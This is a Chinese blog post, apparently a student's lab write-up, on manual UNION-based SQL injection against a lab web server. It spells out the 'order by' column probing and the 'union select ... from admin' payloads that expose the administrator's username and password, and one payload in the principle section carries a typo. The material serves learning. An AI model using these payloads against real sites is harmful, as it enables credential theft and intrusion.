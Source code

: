 ```yaml
---
layout: post
title: "SQL注入原理-手工联合查询注入技术"
description: "SQL注入原理-手工联合查询注入技术"
tag: web 安全
---
```


<style>
.margin-left{
	margin-left:40px
}
.divmargin{
margin-left:60px
}
</style>

<br />

---

<br />

## **实验目的:**

##### &nbsp;&nbsp;&nbsp;1.理解联合查询的原理

##### &nbsp;&nbsp;&nbsp;2.学习联合查询的过程

<br />

## **实验原理:**

##### &nbsp;&nbsp;&nbsp; 首先，在链接后面添加语句 <code>order by 11 (数字任意)</code>，根据页面返回结果，来判断站点中的字段数目。
##### &nbsp;&nbsp;&nbsp; 然后，在链接后面添加语句

##### &nbsp;&nbsp;&nbsp;  <code>union select 1,2,3,4,5,6,7,8,9,10,11 from admin (表名)</code> 进行联合查询，来暴露可查询的字段编号。
##### &nbsp;&nbsp;&nbsp; 最后，根据上一步得到的字段编号，添加语句

##### &nbsp;&nbsp;&nbsp;  <code>union select 1,admin,password,4,5,6,78,9,10,11 from admin</code> 直接暴露管理员用户名和密码。

<br />

## **实验步骤:**

#### **1.检测字段长度**

<br />

<p class="margin-left">
<b>●</b>目标站点: <code>http://192.168.1.3:8008</code> 选择链接 <code>http://192.168.1.3:8008/onews.asp?id=45</code> 
&nbsp;&nbsp;&nbsp;
在后面添加语句<code>order by 12</code> 页面报错
</p>

<img src="/files/SQL injection principle - manually union query injection technique/1.png" width="300px" height="120px">

<br />

<p class="margin-left">
<b>○</b>添加语句 <code>order by 11</code> 页面显示正常，所以此站字段长度为11
</p>

<img src="/files/SQL injection principle - manually union query injection technique/2.png" width="300px" height="120px">

<br />

#### **2.暴管理员用户、密码**

<br />

<div class="divmargin">
<b>●</b>在链接后添加语句  
<br>
<code>union select 1,2,3,4,5,6,7,8,9,10,11 from admin</code>
<br />
页面显示数字2和3，如下图
</div>

<img src="/files/SQL injection principle - manually union query injection technique/3.png" width="300px" height="120px">

<br />

<div class="divmargin">
<b>○</b>在链接后添加语句
<br />
<code>union select 1,admin,password,4,5,6,7,8,9,10,11 from admin</code>
<br />
即可暴出管理员用户和密码
</div>

<img src="/files/SQL injection principle - manually union query injection technique/4.png" width="300px" height="120px">

<br />

## **实验总结:**

这次实验学习了联合查询注入的基本操作，但是对于其原理确实理解不了;

尽快看看数据库原理，弄懂SQL语句的含义。